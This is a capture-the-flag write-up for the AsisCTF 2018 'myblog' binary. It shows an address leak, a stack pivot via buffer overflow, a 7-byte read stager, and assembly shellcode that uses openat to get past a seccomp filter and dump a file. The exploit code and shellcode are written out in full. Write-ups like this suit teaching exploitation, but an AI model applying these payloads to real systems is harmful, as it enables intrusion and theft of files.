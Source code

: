```yaml
---
title: "AsisCTF 2018 - Pwning - myblog"
description: "Classical Buffer overflow with Seccomp and Stack Pivot"
---
```


# myblog

The program offers a basic interface for managing post.
E.g. option 3 can be used to set the blog owner.
Any operation will result in an exit after completion.
```
1. Write a blog post
2. Delete a blog post
3. Show the blog owner
4. Exit
```

A first quick analysis reveals some interesting facts.
First of all, a memory section with rwx privileges is allocated, this could be interesting for storing shellcode.
Second, thr program uses seccomp, therefore some system calls might be disallowed.
```
[...]
mmap(0x656ca000, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0)
[...]
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)  = 0
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, {len=11, filter=0x7ffefe130eb0}) = 0
[...]
```

# Backdoor
By reverse engineering, we found a hidden option with the id 31337.
This method will give us its own address and therefore can be used to compute the binary base.

```C
int backdoor() {
    puts(0x15d8);
    printf("I will give you a gift %p\n", backdoor);
```

In addition, a 16-byte stack-based buffer overflow is given, what allows us to control rip and rbp.
Sadly this is not enough to store a complete ROP chain.

```assembly
sub        rsp, 0x10
[...]
lea        rax, qword [rbp+8]
mov        edx, 0x18                                   ; argument "nbyte" for method j_read
mov        rsi, rax                                    ; argument "buf" for method j_read
mov        edi, 0x0                                    ; argument "fildes" for method j_read
mov        eax, 0x0
call       j_read
```

Additionally, a check is performed, if rip and rbp are pointing to the first 0xfff bytes of the binary.
This limit our usable targets, as we can not jump to any function using syscalls.
Even though, we can jump into the menu handler and call `delete_post`, `write_post` methods, so we can reuse them.


# Executing 7 bytes
An interesting function to use is the `show_owner` as it can be used to change the blog owner (7 Bytes), which is stored in the rwx section.
A pointer to this section is located in the .bss segment.
Therefore we approach the following stack layout for our buffer overflow and stack pivot:


```
.stack
+-----------------+
| new rbp         |
+-----------------+
| call_show_owner |
+-----------------+ <- rbp
| ...             |

.bss
+-----------------+
| rwx_ptr         |
+-----------------+
|                 |
+-----------------+ <- new rbp
```

The strategy would be:
1. call show owner
2. write 7 bytes of shellcode
3. return to menu handler
4. exit, jump to the rwx section



```python
call_show_owner =  blog_base_ptr + 0x10c2
rwx_ptr =  blog_base_ptr + 0x202048
payload = "AAAAAAAA"
payload += pwn.p64(rwx_ptr-8) #rbp
payload += pwn.p64(call_show_owner) #rip
r.send(payload)
```

# Executing arbitrary shell

As the maximum shellcode length is limited to 7 bytes, we need a way to read more shellcode.
As rax is already set to 0 (`sys_read`) we can try to directly write to the rwx memory section
The rdi register defines the maximum number of bytes to be read and is a random pointer, therefore this register needs no changes.
We only need to point rsi to the rwx section.
As rsp is already pointing below the rwx pointer in the .bss section we can use the following shellcode, what compiles to exactly 7 bytes.

```
shellcode = "sub rsp,8; pop rsi; syscall"
shellcode = pwn.asm(shellcode)
r.send(shellcode)
```

We send our shellcode with 7 bytes of padding, so it will be executed directly after the `read` system call returns.

# Seccomp

Even though we can execute arbitrary code, we are not finished yet as seccomp is used to blacklist some system calls.
`seccomp-tools` (https://github.com/david942j/seccomp-tools) can be used to disassemble these rules and show them in a human-readable format.

```
seccomp-tools dump ./myblog

 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x06 0x00 0x40000000  if (A >= 0x40000000) goto 0010
 0004: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0010
 0005: 0x15 0x04 0x00 0x0000003b  if (A == execve) goto 0010
 0006: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0010
 0007: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0010
 0008: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

Execve is blocked, therefore, we cannot execute `execve("/bin/sh", NULL, NULL)` directly.
Open is blocked, therefore we should not be able to open files and read the Flag.
Even though the `openat()` syscall is not blocked, what allows us to open a file relative to a directory.
This syscall requires the following arguments:

| Register | Description |
|----------|-------------|
| rdi | Directory file Descriptor (will be ignored for an absolute path) |
| rsi | Filename |
| rdx | Flags |
| r10 | Mode |

Therefore we can use the following shellcode to open a file, read 1024 bytes and write it to stdout.

```assembly
    jmp str;
ret:
    pop rsi;
    xor rdi, rdi;
    xor rdx, rdx;
    xor r10, r10;
    mov eax, 257;
    syscall

    mov rdi, rax;
    mov rsi, rsp;
    mov rdx, 1024;
    mov eax, 0;
    syscall;

    mov rdi, 1;
    mov eax, 1;
    syscall;

    mov eax, 60;
    syscall

str:
    call    ret
    .string "the filename goes here"
```

And finally recover the flag: ASIS{526eb5559eea12d1e965fe497b4abb0a308f2086}

# Files
- [Exploit](exploit.py)
- [Binary](myblog)
- [Hopper file](myblog.hop)
